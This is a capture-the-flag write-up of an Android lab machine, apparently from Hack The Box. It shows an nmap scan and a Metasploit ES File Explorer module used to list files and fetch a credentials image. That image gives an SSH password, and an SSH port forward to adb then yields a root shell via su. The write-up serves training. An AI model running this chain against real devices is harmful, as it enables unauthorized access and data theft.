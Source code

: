 ![[explore1.png]]

----

## User.txt
Let’s check the **open ports** with **nmap**

```bash
sudo nmap -sV -p- -Pn -vv -T4 10.10.10.247
```

Output:
```bash
PORT      STATE    SERVICE REASON         VERSION
2222/tcp  open     ssh     syn-ack ttl 63 Banana Studio SSH server app (net.xnano.android.sshserver.tv) (protocol 2.0)
5555/tcp  filtered freeciv no-response
46243/tcp open     unknown syn-ack ttl 63
59777/tcp open     http    syn-ack ttl 63 Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
```

Looking in the **port 59777** i found this directories
```bash
/bin                  (Status: 301) [Size: 63] [--> /bin/]
/cache                (Status: 301) [Size: 67] [--> /cache/]
/config               (Status: 301) [Size: 69] [--> /config/]
/d                    (Status: 301) [Size: 59] [--> /d/]
/data                 (Status: 301) [Size: 65] [--> /data/]
/dev                  (Status: 301) [Size: 63] [--> /dev/]
/etc                  (Status: 301) [Size: 63] [--> /etc/]
/init                 (Status: 403) [Size: 31]
/lib                  (Status: 301) [Size: 63] [--> /lib/]
/oem                  (Status: 301) [Size: 63] [--> /oem/]
/proc                 (Status: 301) [Size: 65] [--> /proc/]
/product              (Status: 301) [Size: 71] [--> /product/]
/sbin                 (Status: 301) [Size: 65] [--> /sbin/]
/storage              (Status: 301) [Size: 71] [--> /storage/]
/sys                  (Status: 301) [Size: 63] [--> /sys/]
/system               (Status: 301) [Size: 69] [--> /system/]
/vendor               (Status: 301) [Size: 69] [--> /vendor/]
```

It’s seems as a **file explorer**. If we search **port 59777** on Google, we can found
![[explore2.png]]

Try searching in **metasploit**
There are a **aux** module
```bash
use auxiliary/scanner/http/es_file_explorer_open_port
```

And then, **show options**
```bash
Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ACTIONITEM                   no        If an app or filename if required by the action
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.247     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                          g-metasploit.html
   RPORT       59777            yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   THREADS     1                yes       The number of concurrent threads (max one per host)
   VHOST                        no        HTTP server virtual host


Auxiliary action:

   Name           Description
   ----           -----------
   GETDEVICEINFO  Get device info
```

Set the **RHOSTS** and type **show actions**
```bash
Auxiliary actions:

    Name            Description
    ----            -----------
    APPLAUNCH       Launch an app. ACTIONITEM required.
=>  GETDEVICEINFO   Get device info
    GETFILE         Get a file from the device. ACTIONITEM required.
    LISTAPPS        List all the apps installed
    LISTAPPSALL     List all the apps installed
    LISTAPPSPHONE   List all the phone apps installed
    LISTAPPSSDCARD  List all the apk files stored on the sdcard
    LISTAPPSSYSTEM  List all the system apps installed
    LISTAUDIOS      List all the audio files
    LISTFILES       List all the files on the sdcard
    LISTPICS        List all the pictures
    LISTVIDEOS      List all the videos
```

Trying every action, I can look some interesting.
Set the action LISTPICS with **set action LISTPICS**
And then, exploit

Output
```bash
[+] 10.10.10.247:59777
concept.jpg (135.33 KB) - 4/21/21 02:38:08 AM: /storage/emulated/0/DCIM/concept.jpg
anc.png (6.24 KB) - 4/21/21 02:37:50 AM: /storage/emulated/0/DCIM/anc.png
creds.jpg (1.14 MB) - 4/21/21 02:38:18 AM: /storage/emulated/0/DCIM/creds.jpg
224_anc.png (124.88 KB) - 4/21/21 02:37:21 AM: /storage/emulated/0/DCIM/224_anc.png
```

We can see the **creds.jpg** file
```bash
wget http://10.10.10.247:59777/storage/emulated/0/DCIM/creds.jpg
```

![[explore3.png]]

**User:** kristi
**Password:** Kr1sT!5h@Rp3xPl0r3!

Let’s log in via **ssh**
```bash
ssh kristi@10.10.10.247 -p 2222
```

After search in the **file system**, I found the **user.txt** flag in
```bash
/sdcard/user.txt
```

```bash
:/sdcard $ cat user.txt
f3201717***********91ae250
:/sdcard $
```

## Root.txt
Now let’s **identify the port 5555**, that normally is for **adb** connections.
```bash
ss -ntpl
```

```bash
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=28719,fd=84),("sh",pid=27000,fd=84),("droid.sshserver",pid=3946,fd=84))
LISTEN      0      8       [::ffff:127.0.0.1]:36431                    *:*
LISTEN      0      50       [::ffff:10.10.10.247]:38223                    *:*
LISTEN      0      4            *:5555                     *:*
LISTEN      0      10           *:42135                    *:*
LISTEN      0      50           *:59777                    *:*
```

From our host the **5555 port is filtered**, then, we can do a port forward through **ssh**
```bash
ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222
```

Now we can connect with **adb**
```bash
adb connect 127.0.0.1:5555
```

And get a **shell**
```bash
adb shell
```

```bash
x86_64:/ $ whoami
shell
```

Then, type **su** and press enter
```bash
x86_64:/ $ su
:/ # whoami
root
```

Now we are **root** and just find the **root.txt** flag in
```bash
:/ # cd data
:/data # cat root.txt
f04fc*********2be59338c5
:/data #
```


I hope you found it useful (: